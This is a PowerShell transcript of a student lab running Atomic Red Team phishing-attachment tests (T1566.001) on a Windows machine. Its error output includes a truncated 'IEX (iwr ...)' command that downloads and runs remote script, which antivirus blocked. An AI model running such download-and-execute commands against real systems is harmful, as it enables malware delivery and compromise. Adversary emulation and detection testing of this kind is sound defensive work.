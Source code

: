 ﻿# T1566.001

**********************
Windows PowerShell transcript start
Start time: 20210501213033
Username: DESKTOP-5BHJDMU\student
RunAs User: DESKTOP-5BHJDMU\student
Configuration Name: 
Machine: DESKTOP-5BHJDMU (Microsoft Windows NT 10.0.19042.0)
Host Application: powershell.exe
Process ID: 4340
PSVersion: 5.1.19041.906
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.19041.906
BuildVersion: 10.0.19041.906
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Transcript started, output file is C:\Users\student\Desktop\T1566.001.md

## Test 1

PS C:\Users\student> Invoke-AtomicTest T1566.001 -TestNumbers 1
PathToAtomicsFolder = C:\Tools\atomics
Executing test:
T1566.001-1 Download Phishing Attachment - VBScript

Done executing test:
T1566.001-1 Download Phishing Attachment - VBScript


## Test 2

PS C:\Users\student> Invoke-AtomicTest T1566.001 -TestNumbers 2
PathToAtomicsFolder = C:\Tools\atomics
Executing test:
T1566.001-2 Word spawned a command shell and used an IP address in the command line

Done executing test:
T1566.001-2 Word spawned a command shell and used an IP address in the command line

At line:1 char:3
+ & {IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-ato ...
+   ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus
software.
    + CategoryInfo          : ParserError: (:) [], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS C:\Users\student> stop-transcript
**********************
Windows PowerShell transcript end
End time: 20210501213141
**********************
